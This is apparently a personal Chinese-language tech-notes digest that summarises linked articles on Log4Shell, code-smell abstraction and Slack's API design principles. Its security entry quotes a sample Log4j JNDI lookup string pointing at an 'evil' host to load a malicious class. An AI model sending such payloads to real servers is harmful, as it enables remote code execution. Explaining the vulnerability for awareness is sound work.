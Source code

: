 # 技術筆記 20220103



## 資安議題
### [如何用JNDI實現REC漏洞](https://juejin.cn/post/7040455755899600910)
> 本文詳細說明如何利用JDNI中的RMI API達成log4j的REC攻擊，利用針對特定字串格式(ex: ${jndi:xxx.com.tw/evil})執行RMI的查找（lookup）(key: evil, value: MaliciousClass.class)請求達到惡意程式(MaliciousClass.class)的注入。

![](https://i.imgur.com/MelLGAx.jpg)

### [從監視攝影機理解 Log4j 跟 Log4Shell 漏洞](https://tech-blog.cymetrics.io/posts/huli/what-is-log4j-and-log4shell/)
>作者以監視器為例白話解釋了Log4j如何造成REC漏洞


## Programming Skill

### [如何做好抽象化？](https://zxuanhong.medium.com/%E5%A6%82%E4%BD%95%E5%81%9A%E5%A5%BD%E6%8A%BD%E8%B1%A1%E5%8C%96-%E5%B0%B1%E9%9D%A0%E4%B8%89%E9%9A%BB%E7%A9%BF%E9%9B%B2%E7%AE%AD-b56275a89e41)
>作者提出程式抽象化(Abstraction)三個Code Smell：Multifaceted Abstraction
、Imperative Abstraction、Missing Abstraction。
>* **Multifaceted Abstraction**：抽象化被指配過多責任，違反指配單一責任手段。
>* **Imperative Abstraction**：違反從Problem Domain找出entity手段。
>* **Missing Abstraction**：在系統中沒有任何抽象化，違反提供明確的邊界與身份手段。



## 系統設計

### [How We Design Our APIs at Slack](https://slack.engineering/how-we-design-our-apis-at-slack/?fbclid=IwAR2w43kLZ4uIl0uUEaYFjwT4iL6ik4nXUitk72lY48_pVJtW9gcDIhfy3uY)
>Slack工程師回顧過去五年，提出**6個API的設計原則**與**API開發過程的建議**。
>
>**1. Do one thing and do it well**: 
>&emsp;api應該有單一職責，追求越小的顆粒度，避免隨使用人數成長產生太昂貴的開銷。應把回傳值控制在有限的數量或者利用分頁去限制數量。
>
>**2. Make it fast and easy to get started**:
>&emsp;讓使用API的工程師容易調用。並且應該有易上手的API測試工具。
>
>**3. Strive for intuitive consistency**:
>&emsp;API的直觀性與一致性
>![](https://slack.engineering/wp-content/uploads/sites/7/2021/08/image3.png?resize=1280,1100)
>&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;&emsp;*A preview of Slack’s opinionated API Design Guidelines*

>&emsp;
>**4. Return meaningful errors**
>&emsp;
>**5. Design for scale and performance**
>&emsp;
>**6. Avoid breaking changes**
>&emsp;

 

## WEB 3.0



